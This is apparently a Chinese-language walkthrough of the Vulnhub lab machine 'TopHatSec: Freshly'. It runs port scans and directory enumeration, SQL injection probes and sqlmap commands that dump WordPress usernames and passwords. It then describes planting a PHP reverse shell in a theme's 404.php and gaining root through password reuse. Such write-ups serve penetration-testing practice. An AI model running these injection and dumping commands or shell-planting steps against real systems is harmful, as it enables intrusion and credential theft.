[TOC]

# 靶机概述

- **名称**: TopHatSec: Freshly
- **来源**: Vulnhub
- **发布日期**: 2018年2月
- **难度**: 容易
- **目标**: 通过网络渗透进入系统，找到隐藏的敏感文件中的秘密
- **运行环境**:vmare
- **靶机环境**：ubuntu
- **攻击机**：kali、windows
- **网络环境**：NAT

# 信息搜集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.189 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```



扫出端口号80，443，8080

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 3个都是http相关的服务

## 漏洞扫描



- 80端口枚举了/login.php和/phpmyadmin两个目录
- 443端口无信息
- 8080端口是wordpress的cms框架

## 目录枚举

先用gobuster和dirb两种工具进行目录枚举

```
gobuster dir -u "http://192.168.174.189" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```



```
dirb http://192.168.174.189 /usr/share/wordlists/dirb/big.txt
```

这里只扫描了80端口，其他的并没有什么有效信息

## 端口分析

### 80端口


这是默认页面

/login.php



这个目录尝试一下单引号或者其他信息发现只显示0，说明可能存在sql注入，猜测是布尔盲注，不过发现不太能证明

```
1' and 1=1#
1' and 1=2#都回显0，可能是因为'前的参数不对，但是无论是去掉还是尝试别的都没用
```

```
1' or 1=1#
1' or 1=2#
```



1' or 1=1#倒是可以绕过，回显1，不过既然这样的话只能尝试时间盲注，不能尝试布尔盲注了，因为实际情况相当于是不回显信息，只能通过看响应时长来判断条件是否正确

- 使用sqlmap进行测试，因为是post注入，先抓包，再运行命令


```
sqlmap -r 2.txt --batch
```



果然检测到是时间盲注

```
sqlmap -r 2.txt --batch --dbs
```



```
sqlmap -r 2.txt --batch -D wordpress8080 --tables
```



```
sqlmap -r 2.txt --batch -D wordpress8080 -T users --columns
```



```
sqlmap -r 2.txt --batch -D wordpress8080 -T users -C 'username,password' --dump
```



这个应该就是wordpress，也是8080端口对应/wordpress/wp-login.php的登录凭据了



成功登录



直接在404.php中插入反弹shell的php代码，保存后随便访问一个不存在的页面



成功拿到shell

# 提权

```
whereis python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
(ctrl+z)stty raw -echo; fg
```

拿到功能完整的tty

- 尝试搜集许多信息，结果发现密码复用就可以



直接su



成功提权